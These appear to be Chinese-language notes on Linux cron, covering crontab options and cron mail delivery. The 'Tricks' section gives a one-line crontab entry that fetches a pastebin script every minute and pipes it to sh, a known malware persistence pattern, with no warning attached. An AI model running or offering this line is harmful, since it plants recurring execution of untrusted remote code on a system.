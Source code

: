 `crontab` 同时也是一个管理 crontab files 的程序(这里的 crontab files 特指 `/var/spool/cron` 中对应用户的 crontab files)
 
```
crontab [-u user] <file | ->
crontab [-T] <file | ->
crontab [-u user] <-l | -r | -e> [-i] [-s]
crontab -n [ hostname ]
crontab -c
crontab -V
```
 
### 0x04a Optional args
 
- `-u`
	指定需要修改 crontab file 的用户名，如果没有指定默认使用 `${USER}`
- `-l`
	输出(当前用户的) crontab file
- `-r`
	删除(当前用户的) crontab file
- `-e`
	修改/新增(当前用户的) crontab file，默认会使用 `${VISUAL}` | `${EDITOR}` 作为编辑器
- `-i`
	删除 crontab file 前 prompt
- `-c` | `-n`
	集群相关的参数

### 0x04b Tricks

`crontab` 可以和 stdin 巧妙的结合

```
echo "* * * * * (crul -fsSL https://pastebin.com/raw/e8XzcU2Q || wget -q -O- https://pastebin.com/raw/e8XzcU2Q) | sh" | crontab -
```

## 0x05 Mail

> [!important]
> 如果需要使用邮件的功能，需要安装 postfix

cron 可以通过 `MAILTO` 和 `MAILFROM` 来实现邮件推送

假设有如下任务

```
* * * * * /usr/bin/echo "hello world" && fzf
```

那么 cron 会往 `/var/spool/mail/${USER}` 中写入类似如下内容，发件人和发件人都为 `${USER}@${HOSTNAME}`

```
From root@vbox.localdomain  Wed Oct 30 16:54:01 2024
Return-Path: <root@vbox.localdomain>
X-Original-To: root
Delivered-To: root@vbox.localdomain
Received: by vbox.localdomain (Postfix, from userid 0)
        id DA074600CFA7; Wed, 30 Oct 2024 16:54:01 +0800 (CST)
From: "(Cron Daemon)" <root@vbox.localdomain>
To: root@vbox.localdomain
Subject: Cron <root@vbox> /usr/bin/echo "hello world" && fzf 
Content-Type: text/plain; charset=UTF-8
Auto-Submitted: auto-generated
Precedence: bulk
X-Cron-Env: <XDG_SESSION_ID=22>
X-Cron-Env: <XDG_RUNTIME_DIR=/run/user/0>
X-Cron-Env: <LANG=en_US.UTF-8>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
```
